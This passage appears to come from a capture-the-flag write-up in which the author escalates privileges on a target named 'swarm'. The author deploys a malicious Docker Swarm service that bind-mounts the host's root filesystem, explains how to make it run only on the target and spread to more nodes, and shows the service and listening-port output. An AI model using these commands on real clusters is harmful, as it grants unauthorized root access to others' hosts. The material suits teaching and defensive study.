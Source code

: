 Finalemente, we create the service and push it to the swarm infecting all nodes that stand in our way. 

```bash
docker service create -d -p 1337:1337 --name pwnpod4 --replicas 2 --mount type=bind,source=/,target=/mnt localhost:5000/pwnpod:latest  

image localhost:5000/pwnpod:latest could not be accessed on a registry to record
its digest. Each node will access localhost:5000/pwnpod:latest independently,
possibly leading to different nodes running different
versions of the image.
```

Two things are crucial here. Firstly, while one might be tempted to specify the remote registry explicitly, i.e. `10.129.230.94:5000`, this will cause the you to pwn yourself, as the container will be defined on your system and despite being accessible via `10.129.230.94:1337`, your own filesystem will be mounted, instead of the target's. As such, we must define the registry as `localhost:5000`, which will fail on our system but succeed on the target system, which actually has a running registry. Secondly, note the `--replicas 2`. With more members in the swarm, we could either make this a global service or increase the replicas, to affect more nodes in the swarm.

We can now see the malicious containers running, but only on the target system. For us, the `kali` nodes, we get a `No such image:` error. 

```bash
docker service ps pwnpod 

ID             NAME            IMAGE                          NODE      DESIRED STATE   CURRENT STATE            ERROR                              PORTS
lbfhy0rvbrhs   pwnpod       localhost:5000/pwnpod:latest   swarm     Running         Running 5 minutes ago                                       
zsnh853oc6b8   pwnpod       localhost:5000/pwnpod:latest   swarm     Running         Running 5 minutes ago                                       
cf7emqg769cj    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…"   
uqjlwcjl4d7o    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…"   
uwz8he51e1am    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…"   
0ojk8urmx2qv    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…" 
```

Checking the open ports on the target reveals that `1337` is listening, as we defined.

```bash
plessing@swarm:~$ ss -tlpn

State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         4096               0.0.0.0:5000             0.0.0.0:*
LISTEN    0         4096               0.0.0.0:80               0.0.0.0:*
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*
LISTEN    0         4096                  [::]:5000                [::]:*
LISTEN    0         4096                     *:2377                   *:*
LISTEN    0         4096                     *:7946                   *:*
LISTEN    0         4096                  [::]:80                  [::]:*
LISTEN    0         128                   [::]:22                  [::]:*
LISTEN    0         4096                     *:1337                   *:*
```

